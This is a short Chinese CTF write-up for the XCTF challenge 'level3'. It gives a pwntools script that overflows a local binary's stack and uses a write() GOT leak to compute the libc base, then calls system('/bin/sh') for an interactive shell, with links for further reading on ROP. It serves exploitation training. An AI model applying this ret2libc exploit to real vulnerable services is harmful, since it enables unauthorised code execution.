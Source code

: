 # 攻防世界: level3

## **[目标]**
stack overflow,ROP

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA


这道题涉及到延迟绑定的内容。
请参阅 参考阅读下的链接。

```python
from pwn import *

p = process('./level3')
elf = ELF('./level3')
libc = ELF("/lib/i386-linux-gnu/libc.so.6")

cnt = 140
vul_func = 0x0804844b

p.recv()
payload1 = 'a'*cnt + p32(elf.symbols['write']) + p32(vul_func) 
payload1 += p32(1) + p32(elf.got['write']) + p32(4)

p.sendline(payload1)
write_addr = u32(p.recv(4))
print "write_addr: "+hex(write_addr)

libc_base = write_addr - libc.symbols['write']
log.success("libc_base:"+hex(libc_base))

system_addr = libc_base + libc.symbols['system']
print "system_addr: " + hex(system_addr)

bin_addr = libc_base + libc.search('/bin/sh').next()

print "bin_addr: "+hex(bin_addr)
payload2 = 'a'*cnt + p32(system_addr) + p32(vul_func) + p32(bin_addr)
p.sendline(payload2)

p.interactive()
```

## **[参考阅读]**
[蒸米一步一步学习rop](https://segmentfault.com/a/1190000005888964)

[配合蒸米阅读](https://blog.csdn.net/jltxgcy/article/details/50695580)

延迟绑定的内容请阅读：《程序员的自我修养》